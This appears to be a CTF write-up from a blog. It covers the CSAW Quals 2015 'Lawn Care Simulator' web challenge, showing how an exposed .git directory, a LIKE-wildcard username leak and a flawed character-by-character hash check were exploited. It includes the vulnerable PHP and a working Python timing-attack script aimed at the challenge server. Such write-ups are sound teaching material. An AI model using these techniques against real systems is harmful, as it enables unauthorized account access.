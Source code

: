 ```yaml
---
layout: post
title: "CSAW Quals 2015 Lawn Care Simulator"
date: 2015-09-23 19:17:29 -0400
author: [swappage]
comments: true
categories: [csaw]
---
```


### Solved by Swappage

This 200 points challenge was a web application running a nicely useless javascript for "growing lawn", and was providing all the typical features available in a standard web application, including registration and login.

The objective of this challenge was to login as admin.

## Clone all the things ##

By looking at the index source code we could notice that the version number, present in the bottom corner of the page, was calculated based on the git repository hash.

![](/images/2015/csaw/lawn/version.png)

```javascript
<script>
    function init(){
        document.getElementById('login_form').onsubmit = function() {
            var pass_field = document.getElementById('password');
            pass_field.value = CryptoJS.MD5(pass_field.value).toString(CryptoJS.enc.Hex);
    };
    $.ajax('.git/refs/heads/master').done(function(version){$('#version').html('Version: ' +  version.substring (0,6))});
    initGrass();
}
</script>
```

Since the .git directory is available in the webroot, we can crawl it and download the entire repository, to obtain the source code and spot bugs.
To make my life easier i used DVCS-Pillage: https://github.com/evilpacket/DVCS-Pillage
to automate the whole process, and at the end i had all the website sources available to me, except.. of course for the flag.

    -rw-r--r--  1 root root  109 Sep 19 00:46 ___HINT___
    -rw-r--r--  1 root root 2406 Sep 19 00:46 index.html
    -rw-r--r--  1 root root 1410 Sep 19 00:46 jobs.html
    drwxr-xr-x  2 root root 4096 Sep 19 14:50 js
    -rw-r--r--  1 root root  918 Sep 19 00:46 premium.php
    -rw-r--r--  1 root root 2937 Sep 19 00:46 sign_up.php
    -rw-r--r--  1 root root   78 Sep 19 01:51 test.php
    -rw-r--r--  1 root root  780 Sep 19 00:46 validate_pass.php


## The bugs ##
In the php code there were two bugs:

The first was in the registration page *sign_up.php*

```php
<?php
if ($_SERVER['REQUEST_METHOD'] === 'POST'){
    require_once 'db.php';
    $link = mysql_connect($DB_HOST, $SQL_USER, $SQL_PASSWORD) or die('Could not connect: ' . mysql_error());
    mysql_select_db('users') or die("Mysql error");
    $user = mysql_real_escape_string($_POST['username']);
    // check to see if the username is available
    $query = "SELECT username FROM users WHERE username LIKE '$user';";
    $result = mysql_query($query) or die('Query failed: ' . mysql_error());
    $line = mysql_fetch_row($result, MYSQL_ASSOC);
    if ($line == NULL){
        // Signing up for premium is still in development
        echo '<h2 style="margin: 60px;">Lawn Care Simulator 2015 is currently in a private beta. Please check back later</h2>';
    }
    else {
        echo '<h2 style="margin: 60px;">Username: ' . $line['username'] . " is not available</h2>";
    }
}
else {
?>
```
As it's possible to notice the query used to verify if a user already existed, used a *LIKE* statement, this means that by submitting a username value with the character %, we could disclose the already registered users; of course, since the registration was still closed, the only user we were expecting to find as already registered was the admin username, which happened to be ~~FLAG~~.

![](/images/2015/csaw/lawn/user_exists.png)

The second one was in the way the login process was handled by the validate_pass.php

```php
<?
function validate($user, $pass) {
    require_once 'db.php';
    $link = mysql_connect($DB_HOST, $SQL_USER, $SQL_PASSWORD) or die('Could not connect: ' . mysql_error());
    mysql_select_db('users') or die("Mysql error");
    $user = mysql_real_escape_string($user);
    $query = "SELECT hash FROM users WHERE username='$user';";
    $result = mysql_query($query) or die('Query failed: ' . mysql_error());
    $line = mysql_fetch_row($result, MYSQL_ASSOC);
    $hash = $line['hash'];

    if (strlen($pass) != strlen($hash))
        return False;

    $index = 0;
    while($hash[$index]){
        if ($pass[$index] != $hash[$index])
            return false;
        # Protect against brute force attacks
        usleep(300000);
        $index+=1;
    }
    return true;
}
?>
```

What the script implements as a *protection against brute force attacks* is faulty, and leave the script open to a byte by byte bruteforce attack on the hash, which wasn't calculated by the server, but directly by the javascript on the client side.

By analyzing the timings of the server response it was possible to guess the characters that were composing the md5 hash for the ~~FLAG~~ user.

I built this horrible python script to do the job and retrieve the flag.

```python
#!/usr/bin/python

import datetime
import time
import requests
from itertools import combinations
import itertools

letters = ['a', 'b', 'c', 'd', 'e', 'f', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9']

hash = ""
padding = "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX"
delay = 300

current_milli_time = lambda: int(round(time.time() * 1000))

while 1:
    for c in itertools.combinations_with_replacement(letters, 1):
#       time.sleep(0.5)
        start = current_milli_time()

        stringa = (''.join(c))
        print "[*] bruteforcing MD5 with: " + hash + stringa + padding
        r = requests.post("http://54.175.3.248:8089/premium.php", data={'username': '~~FLAG~~', 'password': hash + stringa + padding})
        #print(r.status_code, r.reason)

        stop = current_milli_time()
        elapsed = stop - start
        print elapsed
        if elapsed > delay:
            start = datetime.datetime.now()
            r = requests.post("http://54.175.3.248:8089/premium.php", data={'username': '~~FLAG~~', 'password': hash + stringa + padding})
            stop = datetime.datetime.now()
            if elapsed > delay:
                print "[*] character found: " + stringa
                hash += stringa
                padding = padding[:-1]
                delay = delay + 300
                print padding
                print hash
                break

```


